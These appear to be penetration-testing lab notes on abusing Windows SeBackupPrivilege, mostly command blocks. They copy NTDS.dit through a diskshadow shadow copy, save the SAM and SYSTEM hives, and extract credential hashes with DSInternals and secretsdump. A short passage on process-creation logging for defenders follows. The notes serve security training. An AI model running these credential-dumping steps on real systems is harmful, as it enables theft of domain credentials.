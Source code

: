 **Copying a Protected File**
````
> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
````

**Copy NTDS.dit**
````
# Method - diskshadow.exe

## Step 1 - Create shadow copy of the C drive
> diskshadow.exe
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

## Step 2 - Verify if E drive exist
> dir E:

## Step 3 - Copying NTDS.dit
> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\ntds.dit

# Step 3 - Copying NTDS.dit with Robocopy
> robocopy /B E:\Windows\NTDS .\ntds ntds.dit
````
**Backing up SAM and SYSTEM Registry Hives**
````
> reg save HKLM\SYSTEM SYSTEM.SAV
> reg save HKLM\SAM SAM.SAV
````
**Extracting Credentials from NTDS.dit**
````
# From Windows
> Import-Module .\DSInternals.psd1
> $key = Get-BootKey -SystemHivePath .\SYSTEM
> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

# From Linux
$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
````

## Event Log Readers

Suppose auditing of process creation events and corresponding command line values is enabled. In that case, this information is saved to the Windows security event log as event ID 4688: A new process has been created. Organizations may enable logging of process command lines to help defenders monitor and identify possibly malicious behavior and identify binaries that should not be present on a system. This data can be shipped to a SIEM tool or ingested into a search tool, such as ElasticSearch, to give defenders visibility into what binaries are being run on systems in the network. 
